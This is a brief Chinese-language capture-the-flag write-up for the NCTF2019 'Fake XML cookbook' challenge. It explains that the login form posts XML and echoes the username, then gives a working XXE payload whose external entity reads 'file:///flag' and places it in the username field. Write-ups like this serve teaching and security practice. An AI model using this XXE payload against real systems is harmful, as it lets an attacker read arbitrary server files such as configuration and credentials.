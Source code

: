 # \[NCTF2019]Fake XML cookbook

## \[NCTF2019]Fake XML cookbook

## 考点

* XXE

## wp

打开就是登录界面，抓包，是XML

![](<../.gitbook/assets/image (34).png>)

会回显username，直接进行XXE注入

```xml
<!DOCTYPE ANY [
    <!ENTITY test SYSTEM "file:///flag">
]>
<user><username>&test;</username><password>123</password></user>
```

![](<../.gitbook/assets/image (27).png>)
